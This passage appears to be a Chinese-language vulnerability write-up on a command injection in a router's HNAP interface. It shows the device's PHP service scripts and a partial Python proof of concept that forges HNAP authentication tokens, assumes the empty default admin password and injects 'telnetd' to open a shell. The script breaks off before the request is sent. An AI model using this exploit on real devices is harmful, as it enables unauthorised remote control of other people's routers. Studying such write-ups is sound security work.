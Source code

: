 HTTP.WAN-1是一种服务，对应于/etc/services/HTTP.WAN-1.php，该服务会开启IPT.WAN-1服务

```
<?
include "/etc/services/HTTP/httpsvcs.php";
fwrite("w",$START,"#!/bin/sh\n");
fwrite("w", $STOP,"#!/bin/sh\n");
fwrite("a",$START,"service IPT.WAN-1 restart\n");#here!!!!
fwrite("a",$START,"service STUNNEL restart\n");
httpsetup("WAN-1");
?>
```

/etc/services/IPT.WAN-1.php会执行之前所说的iptables命令

```
<?
include "/htdocs/phplib/trace.php";
include "/etc/services/IPTABLES/iptwan.php";
IPTWAN_build_command("WAN-1");
?>
```

### 漏洞复现

```
import requests
import telnetlib
from hashlib import md5
import time
import math

trans_5C = "".join(chr(x ^ 0x5c) for x in xrange(256))
trans_36 = "".join(chr(x ^ 0x36) for x in xrange(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    if len(key) > blocksize:
        key = md5(key).digest()
    key += chr(0) * (blocksize - len(key))
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())

def HNAP_AUTH(SOAPAction, privateKey):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(privateKey, b + '"http://purenetworks.com/HNAP1/' + SOAPAction + '"').hexdigest().upper()
    return h + " " + b

#输入IP和admin口令，通过读hnap_main的二进制，理解初始状态admin的口令为空（public_key_0：0代表空值）
IP = '192.168.0.1'
adminPw = ''

command = "telnetd" # command injection id

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/Login"'
headers["Origin"] = "http://" + IP
headers["Referer"] = "http://" + IP + "/info/Login.html"
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["X-Requested-With"] = "XMLHttpRequest"

```
